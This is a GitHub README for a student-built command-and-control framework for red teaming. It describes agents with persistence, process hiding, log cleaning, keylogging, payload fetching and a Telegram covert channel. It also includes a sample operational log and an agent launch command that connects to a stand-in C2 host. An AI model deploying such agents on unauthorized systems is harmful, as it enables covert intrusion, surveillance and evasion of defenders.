


# Infranova C2 Framework

### *Advanced Command & Control Infrastructure for Red Team Operations*

---

[](https://github.com/MrS0n1CTF/Infranova-C2)
[](LICENSE)
[](https://github.com/MrS0n1CTF/Infranova-C2)

---

## 📌 **Part 1: Overview & Project Objectives**

---

### Overview

**Infranova C2** is an advanced **Command & Control framework** designed for remote orchestration and agent management. Developed by **Mr-S0n1CTF** as a graduation project, this framework provides a real-time dashboard, cross-platform agent communication, and encrypted command channels for red team operations and cybersecurity research.

Built with **Python**, **Flask**, **SocketIO**, and **Telegram API**, Infranova C2 is modular, extensible, and easy to deploy.

**Project Creator & Lead Architect:** Mr-S0n1CTF (Youssef Ayman)  
**Institution:** Helwan International Technological University  
**Department:** Cybersecurity  
**Academic Year:** 2025-2026

---

### Intellectual Property Statement

This project, **Infranova C2 Framework**, including all source code, documentation, design, and associated assets, is the original work of **Jou (Mr-S0n1CTF)**. The concept, architecture, and implementation were developed solely by the project creator as part of a graduation project in the field of cybersecurity.

**Copyright Notice:**  
© 2026 Youssef Ayman (Mr-S0n1CTF). All rights reserved.

This work is protected under intellectual property laws. Any unauthorized use, reproduction, or distribution of this framework or its components without explicit permission from the author is prohibited.

**Author Contact:**  
- GitHub: [MrS0n1CTF](https://github.com/MrS0n1CTF)
- Location: Cairo, Egypt

---

### Project Objectives

| # | Objective | Description |
|---|-----------|-------------|
| 1 | **Educational Purpose** | Demonstrate modern C2 frameworks for cybersecurity students |
| 2 | **Red Team Utility** | Provide production-ready C2 for authorized engagements |
| 3 | **Cross-Platform Support** | Windows, Linux, and Android (Termux) |
| 4 | **Stealth & Evasion** | Encryption and covert communication channels |
| 5 | **Operational Security** | Protect operators from forensic analysis |
| 6 | **Scalability** | Handle multiple concurrent agents efficiently |
| 7 | **Real-Time Monitoring** | Geospatial mapping and live telemetry |
| 8 | **Modular Architecture** | Easy extension with custom modules |

---

### Core Capabilities

| Capability | Description |
|------------|-------------|
| **Multi-Platform Agent** | Python-based agent running on Windows, Linux, and Android (Termux) |
| **Real-Time Dashboard** | Geospatial node mapping, live telemetry, and session management |
| **Encrypted Communication** | HTTPS + AES-256 + optional Telegram C2 channel |
| **Persistence Support** | systemd (Linux) and scheduled tasks (Windows) |
| **Modular Architecture** | Easily extendable with custom modules |

---

## 🖥️ **Part 2: Technical Architecture & Operational Showcase**

---

### Agent Architecture (Client-Side)

The Infranova agent follows a modular, event-driven design:

| Component | Function |
|-----------|----------|
| **Heartbeat Scheduler** | Sends periodic "alive" signals to the C2 server (30-60 sec intervals with random jitter) |
| **Command Executor** | Receives, parses, and executes commands from the C2 server |
| **Persistence Manager** | Installs agent using systemd (Linux) or Scheduled Tasks (Windows) |
| **Stealth Wrapper** | Implements process hiding and log cleaning routines |
| **Payload Loader** | Dynamically fetches and executes additional payload modules |
| **C2 Channel Manager** | Maintains communication via HTTPS or Telegram fallback |

---

### Server Architecture (C2 Dashboard)

| Component | Function |
|-----------|----------|
| **Web Interface** | Responsive dashboard with geospatial maps and telemetry |
| **REST API / SocketIO** | Handles agent registration and real-time communication |
| **Database Manager** | SQLite storage for agents, commands, and logs |
| **Queue Manager** | Asynchronous command queue for offline agents |
| **Authentication** | API key-based authentication for agents |
| **C2 Relay Manager** | Bridges commands to Telegram bot for covert channel |

---

### Communication Protocol

| Layer | Protocol |
|-------|----------|
| **Application** | JSON-formatted commands and responses |
| **Presentation** | AES-256-GCM encryption |
| **Session** | Session tokens and heartbeat tracking |
| **Transport** | TLS 1.3 (HTTPS) or Telegram API |
| **Network** | IPv4/IPv6 with optional proxy routing |

---

### 01 – Geospatial Node Intelligence

The dashboard provides real-time visualization of all connected agents with geographic mapping.

| Metric | Value |
|--------|-------|
| **Total Nodes** | 1 |
| **Active Nodes** | 1 |
| **Pending Tasks** | 0 |

**Connected Nodes:**

| Hostname | OS | Location | Status |
|----------|-----|----------|--------|
| localhost | Android | Egypt | Online |
| kali | Linux | Egypt | Online |



*The dashboard displays active agents, their IP addresses, locations, and a dynamic map interface.*

---

### 02 – Interactive C2 Nexus (CLI & Telemetry)

**Supported command types:**

| Command Type | Example | Description |
|--------------|---------|-------------|
| **Native OS Commands** | `whoami`, `ls -lah` | Execute any system command |
| **Infranova Modules** | `screenshot`, `keylog` | Custom modules for specialized tasks |
| **File Operations** | `download`, `upload` | Transfer files to/from agent |
| **Pivot Commands** | `pivot ssh`, `pivot rdp` | Launch lateral movement modules |
| **C2 Control** | `sleep`, `kill`, `reconnect` | Control agent behavior |



*The telemetry panel logs every command sent to agents along with execution results.*

---

### 03 – Execution & Event Telemetry

**Example from operational test:**

| Time | Command | Result | Duration |
|------|---------|--------|----------|
| 20:02:48 | `whoami` | kali | 0.12s |
| 20:03:00 | `ls -lah` | Directory listing (516M total) | 0.45s |
| 20:03:41 | `pwd` | /home/kali/Desktop | 0.03s |
| 20:04:07 | `nmap -sV 192.168.1.2 -T4` | Port 5000 open (Werkzeug) | 12.82s |

**Nmap scan result:**
```
Starting Nmap 7.98 at 2026-04-08 14:04 EDT
Host is up (0.0079s latency).
PORT     STATE SERVICE    VERSION
5000/tcp open  http       Werkzeug httpd 3.1.6 (Python 3.13.12)
MAC Address: **:**:**:**:**:** (Unknown)


```

---

## 📂 **Part 3: Repository Structure, Legal & Contact**

---

### Repository Structure

```

Infranova-C2/
├── agent/               # C2 client (Python)
├── server/              # C2 dashboard (Flask + SocketIO)
├── dashboard/           # Frontend assets (HTML, CSS, JS)
├── payloads/            # Payload generation tools
├── exploits/            # Exploit scripts (optional)
├── assets/              # Screenshots
└── README.md

```

---

### Technology Stack

| Component | Technologies |
|-----------|--------------|
| **Backend** | Python, Flask, SocketIO, SQLite |
| **Frontend** | HTML5, CSS3, JavaScript, Leaflet.js, Chart.js |
| **Communication** | HTTPS, WebSocket, Telegram Bot API |
| **Encryption** | AES-256-GCM, TLS 1.3 |
| **Persistence** | systemd, cron, Windows Scheduled Tasks |

---

### Getting Started

#### Server Installation

```bash
git clone https://github.com/MrS0n1CTF/Infranova-C2.git
cd Infranova-C2/server
pip install -r requirements.txt
python app.py
```

Access the dashboard at http://localhost:5000

Agent Installation

```bash
python client.py --server http://your-c2-server:5000
```

---

Legal Disclaimer

This framework is strictly for Educational Research and Authorized Red Teaming only.

· Educational Research: Students and researchers may use Infranova C2 to understand C2 architectures and red team operations.
· Authorized Red Teaming: Professional penetration testers may deploy Infranova C2 within authorized contracts.
· Prohibited Uses: Any unauthorized, malicious, or illegal use is strictly forbidden.

Mr-S0n1CTF (Youssef Ayman) holds no responsibility for unauthorized deployment or malicious misuse. Usage of Infranova implies adherence to global cybersecurity ethics.

---

Ownership & Copyright

Project Creator & Lead Architect: Jou (Mr-S0n1CTF)

This project was developed as an original graduation project at:

· Institution: Helwan International Technological University
· Department: Cybersecurity
· Academic Year: 2025-2026

All source code, documentation, design, and associated assets are the original work of the project creator. Any reproduction or distribution without explicit permission is prohibited.

---

Contact

For collaboration, research inquiries, or support:

· GitHub: MrS0n1CTF
· Location: Cairo, Egypt

Reporting Issues:
Use the GitHub Issues tab for bug reports. For security vulnerabilities, please disclose responsibly.

---

Acknowledgments

· MITRE ATT&CK for the framework that guided TTP mapping
· OpenStreetMap and Leaflet.js for mapping components
· Telegram for providing the Bot API
· University supervisors for guidance and support

---

References

1. MITRE ATT&CK Framework – Command & Control (TA0011)
2. Telegram Bot API Documentation
3. Flask Framework Documentation
4. SocketIO Documentation
5. OWASP – File Upload Bypass Techniques
6. LSB Steganography – Academic Papers
7. NFS Security Best Practices
8. Linux Privilege Escalation Techniques

---

Final Statement

Infranova C2 is the original work of Mr-S0n1CTF. This project represents months of research, development, and testing. It is designed to be an educational and practical tool for understanding modern C2 infrastructures.

Lead Architect & Creator: Mr-S0n1CTF
Origin: Cairo, Egypt 🇪🇬
Copyright: © 2026 Mr-S0n1CTF. All rights reserved.

---

Stay curious, stay ethical, and keep learning. 🚀

```
